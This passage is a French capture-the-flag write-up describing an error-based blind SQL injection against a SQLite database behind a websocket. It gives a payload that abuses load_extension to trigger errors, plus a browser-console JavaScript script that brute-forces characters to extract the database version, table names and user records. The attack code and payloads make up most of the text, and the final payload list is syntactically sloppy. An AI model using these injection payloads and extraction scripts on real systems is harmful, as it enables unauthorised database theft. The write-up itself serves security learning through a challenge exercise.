 Ca sent la SQLI à plein nez, cependant c'est dans un websocket et il a l'air de vérifier l'origine...
Au bout de quelques payloads, je détermine que la base de donnée est en SQLITE.
Ma payload est la suivante pour avoir une error based, en gros si la requête ne fonctionne pas, elle déclenche une erreur: 
``ws.send("update/' and case when (select sqlite_version() like '%') then 1 else load_extension(1) end--")``

Grâce à cela, je peux savoir simplement en regardant si une erreur a été renvoyée, si ma requête a renvoyé un résultat ou non. Je vais pouvoir exfiltrer des données. J'ai commencé par exfiltrer la version de SQLITE pour bien debug mon script. Puis le nombre de tables, puis leur schéma SQL. Ensuite j'ai énuméré les utilisateurs dans l'espoir d'en voler un qui ait un pourcentage a 100%.

La subtilité du challenge est qu'il faut utiliser sa console directement sur le site pour interagir avec le websocket ! Pas de SQLMap :( ! Pareil pour mon script, je devais le lancer directement dans la console !

Mon script d'exfiltration est le suivant: 
```javascript
var url = window.location.href
var ws = new WebSocket("ws://"+url.split("/")[2]+"/ws")
ws.addEventListener('open', (event) => {
	ws.send("join")
});

function bfChar(exfiltred) {
	for(var i=32;i<127;++i) {
		let char = String.fromCharCode(i);
		if(char != "%" && char != "_" && !(i >= 65 && i <= 90)) {
			let guess = exfiltred + char;
			ws.onmessage = function(evt){
				var data = JSON.parse(evt.data)
				if(data["ok"]) {
					console.log(data)
					let res = data["numberOfRequest"].split("like '")
					res = res[res.length-1].split("%")[0]
					console.log("found: "+res);
					bfChar(res);
				}
			}
			let payload = "SELECT count(associateuser) FROM queue WHERE p3rc3nt4g30fus3r like '"+guess+"%'"

			ws.send("update/' and case when ("+payload + ") then 1 else load_extension(1) end--")
		}
	}
}

function run(payload) {
	runRaw("update/' and case when ("+payload + ") then 1 else load_extension(1) end--")
}

function runRaw(data) {
	ws.onmessage = function(evt){
		console.log(JSON.parse(evt.data))
	}
	ws.send(data)
}

// My payload list
let payload = "select sqlite_version() like '"+guess+"%'" # 3.38.4
let payload = "(SELECT count(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'" < number_of_table # lancée avec run, me dit qu'il y a 2 tables
let payload = "SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' and tbl_name like '"+guess+"%'" # je trouve users et queue
```
